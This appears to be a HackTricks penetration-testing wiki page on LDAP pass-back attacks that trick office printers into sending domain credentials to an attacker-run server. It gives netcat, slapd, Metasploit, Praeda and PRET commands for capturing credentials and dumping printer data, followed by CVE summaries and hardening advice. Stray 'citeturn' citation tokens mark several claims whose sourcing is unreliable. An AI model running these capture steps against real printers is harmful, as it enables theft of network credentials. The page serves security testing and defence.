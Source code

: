 # Information in Printers

{{#include ../../banners/hacktricks-training.md}}

There are several blogs in the Internet which **highlight the dangers of leaving printers configured with LDAP with default/weak** logon credentials.  
This is because an attacker could **trick the printer to authenticate against a rouge LDAP server** (typically a `nc -vv -l -p 444` is enough) and to capture the printer **credentials on clear-text**.

Also, several printers will contain **logs with usernames** or could even be able to **download all usernames** from the Domain Controller.

All this **sensitive information** and the common **lack of security** makes printers very interesting for attackers.

Some blogs about the topic:

- https://www.ceos3c.com/hacking/obtaining-domain-credentials-printer-netcat/  
- https://medium.com/@nickvangilder/exploiting-multifunction-printers-during-a-penetration-test-engagement-28d3840d8856

## Printer Configuration

- **Location**: The LDAP server list is found at: `Network > LDAP Setting > Setting Up LDAP`.
- **Behavior**: The interface allows LDAP server modifications without re-entering credentials, aiming for user convenience but posing security risks.
- **Exploit**: The exploit involves redirecting the LDAP server address to a controlled machine and leveraging the "Test Connection" feature to capture credentials.

## Capturing Credentials

For more detailed steps, refer to the original [source](https://grimhacker.com/2018/03/09/just-a-printer/).

### Method 1: Netcat Listener

A simple netcat listener might suffice:

```bash
sudo nc -k -v -l -p 386
```

However, this method's success varies.

### Method 2: Full LDAP Server with Slapd

A more reliable approach involves setting up a full LDAP server because the printer performs a null bind followed by a query before attempting credential binding.

1. **LDAP Server Setup**: Follow a guide such as Server World for OpenLDAP on a Linux distro.  
2. **Key Steps**:  
   - Install OpenLDAP.  
   - Configure admin password.  
   - Import basic schemas.  
   - Set domain name on LDAP DB.  
   - Configure LDAP TLS.  
3. **LDAP Service Execution**: Once set up, the LDAP service can be run using:

```bash
slapd -d 2
```

### Method 3: Metasploit LDAP Capture

Use Metasploit's auxiliary module to reliably capture LDAP credentials by emulating a server and logging bind attempts:

```bash
sudo msfconsole -q
use auxiliary/server/capture/ldap
set SRVHOST <attacker_ip>
run
```
citeturn0search0

### Method 4: Praeda

Praeda automates harvesting from printers' Embedded Web Server (EWS) and collects credentials, usernames, and email addresses:

```bash
git clone https://github.com/percx/praeda
cd praeda
perl praeda.pl --target <printer_ip> --port 80 --output ./printer-data
```
This tool systematically gathers sensitive information from supported printer models. citeturn4search2

### Method 5: Printer Exploitation Toolkit (PRET)

PRET supports PJL, PCL, and PostScript interactions to extract files, memory, and configuration details:

```bash
git clone https://github.com/RUB-NDS/PRET
cd PRET
pip install colorama pysnmp
python2 pret.py list-users <printer_ip> 9100
```
Use commands like `dump` to extract filesystem contents or `print` to send custom PDL jobs. citeturn0search1

## New Vulnerabilities and Vendor Advisories

- **CVE-2020-9330 (Xerox WorkCentre)**: Certain Xerox WorkCentre MFPs do not require re-validation of LDAP bind credentials when changing the LDAP server address, enabling attackers to redirect authentication and capture clear-text credentials. citeturn1search2
- **CVE-2024-12510 & CVE-2024-12511 (Xerox VersaLink)**: Rapid7 disclosed LDAP and SMB/FTP pass-back vulnerabilities in Xerox VersaLink MFPs that allow credential capture via configuration modifications. citeturn1search4
- **CVE-2025-3078 & CVE-2025-3079 (Canon Pass-Back)**: Canon imageRUNNER ADVANCE, imageRUNNER, imagePRESS, and imageCLASS series affected by SMTP/LDAP pass-back flaws, permitting credential extraction when administrative access is obtained. citeturn1search1turn1search3
- **CVE-2025-6081 (Konica Minolta bizhub)**: Konica Minolta bizhub 227 (GCQ-Y3 and earlier) MFPs vulnerable to LDAP pass-back attacks without requiring password change. citeturn1search0

## Hardening Recommendations

- Enforce LDAP over TLS (LDAPS or StartTLS) to protect simple bind credentials in transit, per RFC 4513. citeturn0search0turn0search1  
- Use dedicated, least-privileged service accounts (MSAs or gMSAs) for printer LDAP binds; avoid using high-privilege domain accounts. Rotate and audit service account credentials regularly. citeturn0search0  
- Change default administrative EWS credentials and disable unused protocols (SMB, FTP) to minimize the attack surface.  
- Segment printer management interfaces into a dedicated VLAN and restrict network access to LDAP/AD servers.  
- Monitor and log LDAP bind attempts and configuration changes from printer IPs; integrate logs into a SIEM for anomaly detection.  
- Apply vendor-supplied firmware updates promptly to remediate known CVEs and follow hardening guides from manufacturers.  

## References

- https://grimhacker.com/2018/03/09/just-a-printer/  
- https://www.rapid7.com/blog/post/cve-2025-6081-konica-minolta-bizhub-pass-back-attack-vulnerability-not-fixed/ citeturn1search0  
- https://www.canon.ca/en/Contact-Support/Product-Advisories/2025-May-19-SMTP-PassbackVulnerabilityRemediation citeturn1search1  
- https://sg.canon/en/support/vulnerability-mitigation-against-smtp-ldap-passback/notice citeturn1search3  
- https://nvd.nist.gov/vuln/detail/CVE-2020-9330 citeturn1search2  
- https://www.darkreading.com/iot/xerox-printer-vulnerabilities-credential-capture citeturn1search4  
- https://github.com/percx/praeda citeturn4search2  
- https://github.com/RUB-NDS/PRET citeturn0search1  
- https://datatracker.ietf.org/doc/html/rfc4513 citeturn0search0turn0search1

{{#include ../../banners/hacktricks-training.md}}
